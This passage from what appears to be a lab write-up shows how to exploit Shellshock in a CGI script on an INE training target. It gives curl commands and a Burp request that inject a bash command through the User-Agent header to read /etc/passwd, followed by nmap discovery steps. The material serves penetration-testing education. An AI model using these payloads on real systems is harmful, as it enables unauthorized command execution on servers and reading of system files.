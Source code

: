 ## 🛠️ Exploitation Methods

### Method 1: cURL Command Injection

#### Basic Payload
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
  http://demo.ine.local/cgi-bin/vulnerable
```

#### Real Lab Example
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
  http://localhost:8080/cgi-bin/vulnerable
```

### Method 2: Burp Suite Manual Exploitation

#### Step-by-Step Process:

1. **Intercept CGI Request**
   - Navigate to the CGI script in browser
   - Intercept request with Burp Suite

2. **Send to Repeater**
   - Right-click intercepted request
   - Select "Send to Repeater"

3. **Modify User-Agent Header**
   ```http
   GET /gettime.cgi HTTP/1.1
   Host: demo.ine.local
   User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
   Accept: */*
   ```

4. **Execute Payload**
   - Click "Send" in Repeater tab
   - Observe command output in response

---

## 🧪 Real Lab Exploitation (From Images)

### Lab Environment Details:
- **Target:** demo.ine.local
- **CGI Script:** /gettime.cgi
- **Vulnerable Service:** HTTP on port 80

### Step 1: Discovery
```bash
nmap demo.ine.local
# Result: Port 80 is open

# View page source reveals CGI script
# Found: xhttp.open("GET", "gettime.cgi", true);
```

